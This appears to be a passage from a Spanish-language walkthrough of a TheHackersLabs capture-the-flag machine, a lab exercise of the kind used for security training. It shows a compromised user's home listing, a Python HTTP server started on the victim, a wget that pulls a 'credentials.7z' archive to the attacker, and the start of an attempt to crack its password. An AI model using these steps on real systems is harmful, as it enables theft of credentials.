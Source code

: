 Podemos ver sus directorios en el directorio `/home`, de los cuales no tendremos permisos:
```bash
bob@TheHackersLabs-Gyhabogados:~$ ls -la /home
total 24
drwxr-xr-x  6 root root     4096 Dec  7  2024 .
drwxr-xr-x 20 root root     4096 Dec  6  2024 ..
drwx------ 19 bob  bob      4096 Dec  8  2024 bob
drwx------  8 dean abogados 4096 Dec  8  2024 dean
drwx------  8 john john     4096 Dec  8  2024 john
drwx------  6 sam  abogados 4096 Dec  8  2024 sam
```

Revisando los archivos del **usuario bob**, encontraremos un archivo comprimido en **7z**:
```bash
bob@TheHackersLabs-Gyhabogados:~$ ls
credentials.7z  Desktop  Documents  Downloads  mail  Maildir  Music  Pictures  Public  scripts  Templates  Videos
```
Vamos a mandarlo a nuestra máquina.

Inicia un servidor con **python3** en la máquina víctima:
```bash
bob@TheHackersLabs-Gyhabogados:~$ which python3
/usr/bin/python3
bob@TheHackersLabs-Gyhabogados:~$ python3 -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Descarga el archivo comprimido con **wget**:
```bash
wget http://192.168.100.150:8000/credentials.7z
```

Vamos a descomprimirlo:
```bash
7z x credentials.7z

7-Zip 25.01 (x64) : Copyright (c) 1999-2025 Igor Pavlov : 2025-08-03
 64-bit locale=es_MX.UTF-8 Threads:6 OPEN_MAX:1024, ASM

Scanning the drive for archives:
1 file, 186 bytes (1 KiB)

Extracting archive: credentials.7z
--
Path = credentials.7z
Type = 7z
Physical Size = 186
Headers Size = 154
Method = LZMA2:12 7zAES
Solid = -
Blocks = 1

    
Enter password (will not be echoed):
```
Necesita una contraseña, por lo que tendremos que crackearlo.
